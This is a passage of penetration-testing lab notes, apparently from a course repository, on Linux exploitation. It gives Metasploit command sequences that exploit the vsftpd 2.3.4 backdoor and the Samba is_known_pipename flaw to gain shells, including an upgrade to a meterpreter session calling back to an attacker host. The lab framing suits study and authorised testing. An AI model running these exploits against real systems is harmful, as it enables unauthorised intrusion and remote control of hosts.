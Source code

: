 <br>

## 6. Exploitation - Linux

### 6.1. Exploiting A Vulnerable FTP Server

VSFTPD (Very Secure FTP Daemon) is a FTP server software for Unix-like systems designed to be fast and lightweight while providing essential features for file transfer operations. 

**Objective**: Exploit the server using suitable Metasploit module and get a shell on the target.

```shell
service postgresql start && msfconsole
workspace -a VSF_Scan
db_nmap -sS -sV -O <target_IP>
services

search vsf
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST <target_IP>
exploit

whoami
/bin/bash -i 
# Put it in the background ctrl+z

search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
show options
set LHOST <kali_IP>
set SESSION 1
run
sessions 2
sysinfo
```

### 6.2. Exploiting Samba (File Sharing Service)

**Samba** is a free software re-implementation of the SMB (Server Message Block) networking protocol, and it provides file and print services for various Microsoft Windows clients and can integrate with a Windows Server domain, either as a Primary Domain Controller (PDC) or as a domain member. In this lab, we will see how a vulnerable file-sharing service can be exploited.

**Objective:** Get a shell on the target by exploiting a file-sharing service.

```shell
db_nmap -sS -sV -O <target_IP>
services
# We have discovered a Samba server running on the target machine. Let’s use metasploit module and exploit the target.

msfconsole -q
use exploit/linux/samba/is_known_pipename
set RHOST <target_IP>
check
exploit
```
